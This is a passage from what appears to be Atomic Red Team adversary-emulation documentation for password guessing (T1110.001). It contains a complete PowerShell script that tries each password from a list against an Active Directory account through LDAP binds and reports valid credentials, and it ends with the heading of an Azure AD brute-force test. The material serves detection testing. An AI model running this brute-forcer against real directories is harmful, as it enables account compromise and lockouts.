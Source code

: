 **auto_generated_guid:** c2969434-672b-4ec8-8df0-bbb91f40e250





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | string | $ENV:USERNAME|
| passwords_path | List of passwords we will attempt to brute force with | path | PathToAtomicsFolder&#92;T1110.001&#92;src&#92;passwords.txt|
| domain | Active Directory domain FQDN | string | $env:UserDnsDomain|
| auth | authentication method to choose between "NTLM" and "Kerberos" | string | NTLM|


#### Attack Commands: Run with `powershell`! 


```powershell
if ("#{auth}".ToLower() -NotIn @("ntlm","kerberos")) {
  Write-Host "Only 'NTLM' and 'Kerberos' auth methods are supported"
  exit 1
}

[System.Reflection.Assembly]::LoadWithPartialName("System.DirectoryServices.Protocols") | Out-Null
$di = new-object System.DirectoryServices.Protocols.LdapDirectoryIdentifier("#{domain}",389)

$passwordList = Get-Content -Path "#{passwords_path}"
foreach ($password in $passwordList){
  $credz = new-object System.Net.NetworkCredential("#{user}", $password, "#{domain}")
  $conn = new-object System.DirectoryServices.Protocols.LdapConnection($di, $credz, [System.DirectoryServices.Protocols.AuthType]::#{auth})
  try {
    Write-Host " [-] Attempting ${password} on account #{user}."
    $conn.bind()
    # if credentials aren't correct, it will break just above and goes into catch block, so if we're here we can display success
    Write-Host " [!] #{user}:${password} are valid credentials!"
  } catch {
    Write-Host $_.Exception.Message
  }
}
Write-Host "End of bruteforce"
```






<br/>
<br/>

## Atomic Test #3 - Brute Force Credentials of single Azure AD user
Attempt to brute force Azure AD user via AzureAD powershell module.
